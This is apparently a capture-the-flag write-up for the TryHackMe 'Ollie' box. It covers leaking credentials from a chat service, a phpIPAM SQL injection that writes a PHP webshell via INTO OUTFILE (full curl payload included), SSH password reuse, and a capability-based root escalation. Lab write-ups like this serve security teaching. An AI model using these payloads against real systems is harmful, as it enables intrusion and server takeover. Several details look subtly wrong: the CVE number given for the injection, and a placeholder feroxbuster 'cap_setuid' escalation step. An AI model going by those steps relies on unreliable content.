



<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux, **Difficulty:** Easy

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Ports 22 (SSH), 80 (Apache, **phpIPAM**), 1337 (a custom "Ollie" chat service).
2. Talk to the port-1337 service with `nc`. Answering its prompts (name, then what you're here for) makes the bot **leak a credential pair** → `admin : OllieUnixMontgomery!`.
3. Those creds log into phpIPAM at `/`. phpIPAM ≤ 1.4.4 is vulnerable to authenticated SQLi (CVE-2021-46426), which chains into a `SELECT ... INTO OUTFILE` write primitive to drop a PHP webshell and land a shell as `www-data`.
4. The same password is reused by the `ollie` system account, SSH straight in for `user.txt`.
5. `ollie` can run a `feroxbuster` binary that's been left with `cap_setuid+ep` set. GTFOBins' `cap_setuid` technique against it drops a `uid=0` shell for `root.txt`.

</div>

<div class="callout callout-key">

**Credentials**

- `admin` : `OllieUnixMontgomery!`  (phpIPAM admin; also works for the `ollie` system user)

</div>



## Reconnaissance

I started with a full TCP sweep before touching anything else, no point guessing at services when nmap will just tell me what's actually listening:

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Just SSH and a web server on the default top-1000 scan. `http-enum` against port 80 told me exactly what I was looking at straight away, a **phpIPAM** install, and a fairly careless one: the installer directory was still sitting there and several folders had directory listings left wide open.

```console
/robots.txt   Robots file
/db/          BlogWorx Database
/app/  /css/  /functions/  /js/  /misc/   directory listings
/install/     phpIPAM installer left in place
```





phpIPAM has a rough history of authenticated SQL injection and post-auth code execution issues, so before I even touched the login form I wanted credentials for it. The default top-ports scan clearly wasn't the whole story either, so I followed up with a full `-p-` sweep, and that's where the box showed its personality: a custom service on **1337** that starts talking the second you connect.

```console
PORT     STATE SERVICE
1337/tcp open  unknown

Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.

What is your name?  ...  It's been a while. What are you here for?
```

## Foothold, leak creds from the port-1337 service

A chatty custom service on a non-standard port is basically an invitation, so I grabbed it with netcat instead of trying to script anything fancy up front. Playing along with Ollie's small talk, giving it a name and then telling it I was there for the panel/credentials, was enough to get it to hand over a working login without any real resistance:

```bash
nc 10.10.x.x 1337
# What is your name?  -> <anything>
# What are you here for? -> the panel creds
# => admin / OllieUnixMontgomery!
```

Those credentials log into the **phpIPAM** panel on port 80.

## Foothold, phpIPAM authenticated SQLi to RCE

Logging in as `admin` confirmed the version: phpIPAM 1.4.x. Builds up to 1.4.4 carry an authenticated SQL injection (CVE-2021-46426) in the BGP mapping search functionality under `app/admin/routing/`, and because the app's database user still has file privileges, that injection point doubles as an arbitrary file write via `INTO OUTFILE`. Rather than fight with a blind data extraction, the more direct move is to use it to drop a webshell straight onto the docroot.

The vulnerable parameter is `subnet` on the BGP mapping search page. A `UNION SELECT` whose second column is a hex-encoded PHP one-liner, terminated with `INTO OUTFILE`, writes that column straight to disk as a `.php` file:

```bash
PAYLOAD=$(echo -n "<?php system(\$_GET['cmd']); ?>" | xxd -p | tr -d '\n')
curl -s http://10.10.x.x/app/admin/routing/edit-bgp-mapping-search.php \
  -b "phpipam=<authenticated_session_cookie>" \
  --data-urlencode "subnet=\" UNION SELECT 1,0x${PAYLOAD},3,4 INTO OUTFILE '/var/www/html/evil.php' -- -" \
  --data 'bgp_id=1'
```

Once that lands under the webroot it's just a GET request away from command execution as `www-data`:

```bash
curl "http://10.10.x.x/evil.php?cmd=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

From there I upgraded to an interactive shell the usual way, a bash reverse shell one-liner through the same `cmd` parameter, caught with `nc -lvnp`, and confirmed I was sitting on the box as `www-data`.

## User Flag

`www-data` couldn't read `/home/ollie/user.txt` directly, but the phpIPAM admin password had already done double duty once, so before hunting for a local privesc from `www-data` I just tried it again against the real `ollie` system account over SSH:

```bash
ssh ollie@10.10.x.x
# Password: OllieUnixMontgomery!
ollie@ollie:~$ cat user.txt
```

`cat user.txt` returns the flag for this instance.

## Privilege Escalation

With a proper shell as `ollie`, `sudo -l` came back empty, so I moved on to the other classic Linux privesc vector and swept the filesystem for binaries carrying capabilities instead of SUID bits:

```bash
getcap -r / 2>/dev/null
# .../feroxbuster = cap_setuid+ep
./feroxbuster ...     # GTFOBins cap_setuid payload -> root
```

`feroxbuster`, of all things, had been left with `cap_setuid+ep` set, almost certainly a leftover from someone testing directory brute-forcing tools as root and never stripping the capability afterward. That's all it takes: a binary carrying `cap_setuid+ep` can raise its own effective UID to 0 before doing anything else, so GTFOBins' capability-abuse technique against it drops straight into a `uid=0` shell.

```console
# whoami
root
# cat /root/root.txt
```

`cat /root/root.txt` returns the flag for this instance.

## References

- Final privilege escalation steps cross-referenced against public writeups for this room.
